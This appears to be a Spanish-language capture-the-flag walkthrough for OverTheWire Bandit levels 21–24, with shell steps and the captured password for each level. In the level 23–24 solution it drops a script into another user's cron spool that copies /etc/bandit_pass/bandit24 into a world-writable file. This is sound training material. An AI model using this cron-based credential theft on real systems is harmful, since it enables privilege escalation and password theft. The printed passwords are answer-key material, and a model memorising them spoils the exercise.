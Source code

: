 ## Bandit Level 21 → Level 22

* SSH: ssh -o PubkeyAuthentication=no -p2220 bandit21@bandit.labs.overthewire.org
* Solución: 

```bash
$ cd /etc/cron.d/
$ ls -l
$ cat cronjob_bandit22
$ /usr/bin/cronjob_bandit22.sh
$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
Yk7owGAcWjwMVRwrTesJEwB7WVOiILLI
```

## Bandit Level 22 → Level 23

* SSH: ssh -o PubkeyAuthentication=no -p2220 bandit22@bandit.labs.overthewire.org
* Solución:

```bash
$ cd /etc/cron.d/
$ ls -l 
$ cat cronjob_bandit23
$ cat /usr/bin/cronjob_bandit23.sh
-- #!/bin/bash
-- myname=$(whoami)
-- mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
-- echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
-- cat /etc/bandit_pass/$myname > /tmp/$mytarget
$ /usr/bin/cronjob_bandit23.sh
## whoami = bandit22
$ myname=bandit23
$ mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
$ echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
$ cat /etc/bandit_pass/$myname > /tmp/$mytarget
$ cat /tmp/8ca319486bfbbc3663ea0fbe81326349
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

## Bandit Level 23 → Level 24

* SSH: ssh -o PubkeyAuthentication=no -p2220 bandit23@bandit.labs.overthewire.org
* Solución:

```bash
$ cd /etc/cron.d/
$ ls -l 
$ cat cronjob_bandit24
$ cat /usr/bin/cronjob_bandit24.sh
$ mkdir /tmp/fcchx
$ cd /tmp/fcchx
$ touch getx.sh
$ chmod 777 getx.sh
$ ls -la getx.sh
$ vim getx.sh
-- #!/bin/bash
-- cat /etc/bandit_pass/bandit24 > /tmp/fcchx/password
$ touch password
$ chmod 666 password
$ ls -la password
$ cp getx.sh /var/spool/bandit24/
## Wait 5 sec.
$ cat password
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```